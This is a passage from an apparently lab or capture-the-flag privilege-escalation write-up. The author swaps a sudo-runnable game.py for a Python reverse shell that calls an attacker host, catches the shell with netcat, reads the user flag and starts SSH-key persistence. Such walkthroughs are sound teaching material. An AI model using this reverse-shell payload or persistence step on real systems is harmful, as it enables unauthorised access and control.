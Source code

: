 From the result above we see that the user input accepted by the game is not used in any execution hence we can forget the idea of a command execution vulnerability. What is interesting is that the directory **game** belongs to our user's group and we have written permission on this directory. This means we can add or delete files in this directory.<br> *NB: In a real-world assessment avoid deleting clients' files or folders instead you can make a backup of these files before deleting them*.<br> We can copy the original game to the /tmp directory and add a fake file with  the same name but with a reverse shell in it.
```bash
tignasse@kuus:/opt/games$ cp game.py /tmp
tignasse@kuus:/opt/games$ rm game.py
rm: remove write-protected regular file 'game.py'? y
```

We can add the following Python code to our fake game.py file.
```python
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.2.9",1235))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty
pty.spawn("/bin/bash")
```
Now we can start a listener on our attack host and execute the fake game.py file using sudo right.
```bash
┌──(pentester㉿kali)-[~/Suuk]
└─$nc -lvnp 1235                                               
listening on [any] 1235 ...
```

```bash
tignasse@kuus:/opt/games$ nano game.py 
tignasse@kuus:/opt/games$ sudo -u mister_b /usr/bin/python /opt/games/game.py
```

We can go back to our listener and we shall see a reverse connection established by the target. We can use this access to read the user flag as shown below.
```bash
┌──(pentester㉿kali)-[~/Suuk]
└─$nc -lvnp 1235                                               
listening on [any] 1235 ...
connect to [10.0.2.9] from (UNKNOWN) [10.0.2.13] 46360
mister_b@kuus:/opt/games$ whoami
whoami
mister_b
mister_b@kuus:/opt/games$ ls ~
ls ~
user.txt
```

This step is optional but in case we were in a real assessment we would like to achieve persistence on the target as this user. Since we don't have this user's login credentials we can create SSH keys on the target and download the private on our attack host.
```bash
mister_b@kuus:~$ mkdir .ssh
mkdir .ssh
mister_b@kuus:~$ chmod 700 .ssh
chmod 700 .ssh
mister_b@kuus:~$ cd .ssh
cd .ssh
mister_b@kuus:~/.ssh$ ssh-keygen
ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/mister_b/.ssh/id_rsa): 
Enter passphrase (empty for no passphrase): 
Enter same passphrase again: 
Your identification has been saved in /home/mister_b/.ssh/id_rsa.
```